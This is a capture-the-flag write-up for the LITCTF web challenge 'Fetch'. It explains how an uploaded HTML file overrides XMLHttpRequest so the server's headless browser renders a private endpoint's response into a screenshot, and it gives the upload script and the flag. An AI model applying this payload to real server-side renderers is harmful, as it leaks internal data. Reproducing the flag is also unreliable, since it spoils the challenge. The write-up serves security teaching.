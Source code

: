 # **Fetch**
fetch me the flag at http://litctf.org:31770/

## **Description**
We are given a url and source code for the application. Inspecting the URL, we see primarily just text that seems to describe the fetch api. After a second however, there is a popup that says `Looks like you're getting somewhere!`.

The web source as well as the source code shows that there is an endpoint `/runHTML` which takes a file, loads it, then within the file context, calls `window.XMLHTTPRequest()` to fetch the flag string from a different non public endpoint. Finally it takes a screenshot and sends that back to us.

```js
const runHTMLFile = async (filePath) => {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  await page.goto(`file:${filePath}`);

  await page.evaluate(() => {
    const req = new window.XMLHttpRequest();
    req.open("GET", "http://localhost:6969/" + randomString, false);
    req.send(null);
  });
  const screenshot = await page.screenshot({
    path: filePath.replace(".html", ".png"),
    fullPage: true,
    type: "png",
  });
  await browser.close();

        return filePath.replace(".html", ".png");
};
```

## **Solution**
We can take advantage of the function called and can overwrite `window.XMLHttpRequest` to instead read the content of the file and render it in the DOM. Here is the final `index.html` used.

```html
<script>
    class D {
        open(content, url) {
            const container = document.createElement('div');
            fetch(url).then((d) => d.text().then((d) => {
                container.innerText = d;
            }))
            document.body.appendChild(container);
        }
        send(...args) {
            ;
        }
    }
    window.XMLHttpRequest = D;
</script>
```

And can then send this file to the `runHTML` endpoint, write the output to a png file, and then view it.
```py
import requests
import os

multipart_form_data = {
    'file': ('asdf', open('index.html', 'rb'), 'text/html'),
}

response = requests.post('http://litctf.org:31770/runHTML', files=multipart_form_data)
with open('out.png', 'wb+') as f:
    f.write(response.content)

os.system('wslview out.png')
```
![output](image.png)


---
## **Flag**: LITCTF{wow_i_actually_love_the_fetch}
---
